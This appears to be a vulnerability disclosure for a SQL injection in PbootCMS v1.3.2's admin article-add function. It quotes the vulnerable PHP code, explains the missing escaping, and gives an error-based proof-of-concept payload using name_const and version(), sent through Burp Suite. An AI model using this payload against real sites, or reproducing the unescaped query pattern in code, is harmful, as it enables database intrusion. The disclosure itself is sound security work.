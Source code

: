 # PbootCMS SQL Injection

Vendor HomePage : https://www.pbootcms.com/

Software Link : https://gitee.com/hnaoyun/PbootCMS

Affected Version : v1.3.2



## 0x01 Vulnerability description

The string of the **$description** parameter transmission is completely without check and filter, it will lead to the existence of SQL injection vulnerability.

Code source : \apps\admin\controller\content\ContentController.php at line 68-154



```php
	// 文章增加
    public function add()
    {
        if ($_POST) {
            
            // 获取数据
            $scode = post('scode');
            $subscode = post('subscode');
            $title = post('title');
            $titlecolor = post('titlecolor');
            $subtitle = post('subtitle');
            $filename = post('filename');
            $author = post('author');
            $source = post('source');
            $outlink = post('outlink');
            $date = post('date');
            $ico = post('ico');
            $pics = post('pics');
            $content = post('content');
            $tags = str_replace('，', ',', post('tags'));
            $enclosure = post('enclosure');
            $keywords = post('keywords');
            $description = post('description');
            $status = post('status', 'int');
            $istop = post('istop', 'int', '', '', 0);
            $isrecommend = post('isrecommend', 'int', '', '', 0);
            $isheadline = post('isheadline', 'int', '', '', 0);
            
            if (! $scode) {
                alert_back('内容分类不能为空！');
            }
            
            if (! $title) {
                alert_back('文章标题不能为空！');
            }
            
            // 自动提起前一百个字符为描述
            if (! $description && isset($_POST['content'])) {
                $description = substr_both(strip_tags($_POST['content']), 0, 150);
            }
            
            // 缩放缩略图
            if ($ico) {
                resize_img(ROOT_PATH . $ico, '', $this->config('ico.max_width'), $this->config('ico.max_height'));
            }
            
            // 检查自定义文件名称
            if ($filename) {
                while ($this->model->checkFilename("filename='$filename'")) {
                    $filename = $filename . '_' . mt_rand(1, 20);
                }
            }
            
            // 构建数据
            $data = array(
                'acode' => session('acode'),
                'scode' => $scode,
                'subscode' => $subscode,
                'title' => $title,
                'titlecolor' => $titlecolor,
                'subtitle' => $subtitle,
                'filename' => $filename,
                'author' => $author,
                'source' => $source,
                'outlink' => $outlink,
                'date' => $date,
                'ico' => $ico,
                'pics' => $pics,
                'content' => $content,
                'tags' => $tags,
                'enclosure' => $enclosure,
                'keywords' => $keywords,
                'description' => clear_html_blank($description),
                'sorting' => 255,
                'status' => $status,
                'istop' => $istop,
                'isrecommend' => $isrecommend,
                'isheadline' => $isheadline,
                'visits' => 0,
                'likes' => 0,
                'oppose' => 0,
                'create_user' => session('username'),
                'update_user' => session('username')
            );
            
            // 执行添加
            if (! ! $id = $this->model->addContent($data)) {
                // 扩展内容添加
                

```

The function of clear_html_blank() is as follows:

```php
// 清洗html代码的空白符号
function clear_html_blank($string)
{
    $string = str_replace("\r\n", '', $string); // 清除换行符
    $string = str_replace("\n", '', $string); // 清除换行符
    $string = str_replace("\t", '', $string); // 清除制表符
    $string = str_replace(' ', '', $string); // 清除大空格
    $string = str_replace('&nbsp;', '', $string); // 清除 &nbsp;
    $string = preg_replace('/\s+/', ' ', $string); // 清除空格
    return $string;
}
```

The variable named $description, is only process by the strip_tags(), mb_substr() and clear_html_blank() functions, and is direclty queried into the sql statement, so there is a sql injection vulnerability.



## 0x02 Proof of  Concept

In "news add" table, We use Burpsuite to modify the **content**  like this:

```
testPOC' or (SELECT * FROM (SELECT(name_const(version(),1)),name_const(version(),1))a) or '
```

![](images/1.png)



![](images/2.png)